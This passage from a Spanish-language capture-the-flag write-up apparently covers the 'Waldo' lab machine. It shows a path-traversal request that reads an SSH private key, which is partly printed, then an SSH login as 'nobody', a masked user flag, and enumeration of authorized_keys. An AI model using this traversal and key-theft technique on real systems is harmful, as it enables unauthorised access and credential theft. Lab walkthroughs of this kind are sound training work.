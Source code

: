 Mediante curl y con la ayuda de `jq` extraemos la clave id_rsa sin saltos de línea y con el formato correcto

```bash
❯ curl -s -X POST "http://10.129.18.149/fileRead.php" -d 'file=....//....//....//....//home/nobody/.ssh/.monitor' | jq '.["file"]' -r
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
.
.
.
```

Asignamos permisos 600 a la clave id_rsa y nos conectamos por ssh con el usuario `nobody`

```bash
❯ ssh -i id_rsa nobody@10.10.10.87
The authenticity of host '10.10.10.87 (10.10.10.87)' can t be established.
ECDSA key fingerprint is SHA256:S4nfJbcTY7WAdYp2v16xgnUj4MEIzqZ/jwbGI92FXEk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.87' (ECDSA) to the list of known hosts.
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ whoami
nobody
```
La flag de usuario la encontramos en `/home/nobody`

```bash
waldo:~$ cat user.txt 
d99bdfcde5f24e7a4***************
```

### Movimiento Lateral

* * *

Comenzamos enumerando grupos, privilegios de sudo y permisos SUID si encontrar nada concreto. Enumerando archivos en el directorio personal de nobody, dentro de la carpeta `.ssh` observamos el contenido de `authorized_keys` y vemos un usuario `monitor` que en un principio n se encontraba dentro del `/etc/passwd`

```bash
waldo:~/.ssh$ cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM/VNgdz7ijwPfraXk3B/oKmWZHgkfqfg1xx2bVlT6oHvuWLxk6/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp/zuzQVkGFgCLMas014suEHUhkiOkNUlRtJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbBVeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+arOD6NJOFJY4jBHvf monitor@waldo 
```
